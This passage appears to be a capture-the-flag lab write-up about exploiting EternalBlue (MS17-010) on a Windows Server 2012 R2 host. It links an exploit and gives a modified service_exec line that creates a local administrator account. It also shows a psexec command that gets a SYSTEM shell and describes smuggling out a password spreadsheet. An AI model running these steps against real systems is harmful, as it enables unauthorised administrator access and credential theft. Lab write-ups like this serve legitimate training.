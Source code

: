 Here we find a banner saying 'Windows Server 2012 R2 Essentials' so this may be Eternalblue (ms17-010). After running nmap scripts for smb (smb-vuln*) we found it vulnerable to Eternalblue

With **[this exploit](https://www.exploit-db.com/exploits/42315)** (and **[its dependency](https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py)**), creating an admin user and using psexec we get a nt authority shell:

```bash
We have to add this line to the script in the line (in method called smb_pwn):
	
service_exec(conn, r'cmd /c net user /add ajcriado password123! && net localgroup administrators peluqqi /add')

Now we get a shell as nt authority with psexec

proxychains impacket-psexec ajcriado:'password123!'@172.16.1.20
```

Now we found an excel file inside user Desktop, we moved it by encoding it as base64 as we cannot create a smb server or have a direct connection to our attack machine. In this file we found users and their passwords (on a hidden B column) but we don't find anything related to mrb3n (the flag hint is called 'mrb3n leaves his mark'). Using command `net user mrb3n` we found the flag in the user comment.